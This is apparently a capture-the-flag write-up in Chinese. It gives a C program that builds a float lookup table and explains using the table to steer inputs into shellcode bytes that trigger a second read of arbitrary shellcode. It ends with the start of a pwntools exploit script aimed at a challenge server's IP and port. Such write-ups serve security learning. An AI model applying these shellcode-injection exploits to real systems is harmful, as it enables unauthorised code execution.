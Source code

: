 ```c
// tab.c
// gcc -O2 tab.c && a.out
#include <stdio.h>

int main(void) {
    FILE *tab = fopen("table", "wb");   
    int tmp;
    for (int i = 0; i < 4096; i++) {
        for (int j = 0; j < 1048576; j++) {
            *(float *)&tmp = (float)((unsigned int)(i << 20) | j) / 2024.0f;
            fwrite(&tmp, 1, 4, tab);
        }
        fflush(tab);
    }
}
```

这样一来，当输入数字为`idx`时，通过访问文件中的`idx * 4:idx * 4 + 4`可以获知最后放入
shellcode 区的真正数字。然后再准备shellcode，转换为16进制后放到imhex里面爆搜，
就可以根据地址反推输入的数字

![brute force](assets/table.png)

书签上对应的指令与以下脚本中的地址一一对应

图中指令：使rdx变为0x600000，然后跳转过去，再执行一次read，读入任意shellcode

## EXPLOIT

```python
from pwn import *
from rich.progress import track
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './main'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('222.67.132.186', 24026)

    sh.sendlineafter(b'input', b'1')
    sh.recvuntil(b'number') # get into code_input
```